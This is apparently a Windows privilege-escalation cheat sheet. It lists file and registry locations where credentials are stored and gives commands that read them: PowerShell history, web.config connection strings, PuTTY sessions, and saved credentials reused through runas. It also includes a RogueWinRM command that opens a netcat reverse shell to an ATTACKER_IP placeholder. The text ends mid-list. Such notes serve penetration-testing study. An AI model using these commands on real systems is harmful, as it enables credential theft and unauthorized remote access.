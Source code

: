 #### Usual Spots:

1. Unattended Windows Installations
    - C:\Unattend.xml
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Unattend\Unattend.xml
    - C:\Windows\system32\sysprep.inf
    - C:\Windows\system32\sysprep\sysprep.xml

2. Powershell history
    
    cmd.exe: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
    
    Powershell: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

3. Saved Windows Credentials:

    `cmdkey /list` -> `runas /savecred /user:<username> cmd.exe`

4. IIS:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

5. Retrieve Credentials over PuTTY: 

    `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

6. Windows Privileges:
    
    `whoami /priv`

    After fake RogueWinRM service is running:

    `c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`

### Insecure Configurations:

1. Windows Services:
    ```
    in Powershell replace sc with sc.exe

    List services:
        services.msc
        cmd.exe:    sc queryex type= service state= all
        Powershell: Get-Service
    View details:   
        sc qc <service_name>
    Check permissions: 
        icals <executable_path>
        accesschk.exe /accepteula -uwcqv <username> <service>
    Start/Stop service: 
        sc start/stop <service>
        net start/stop <service>
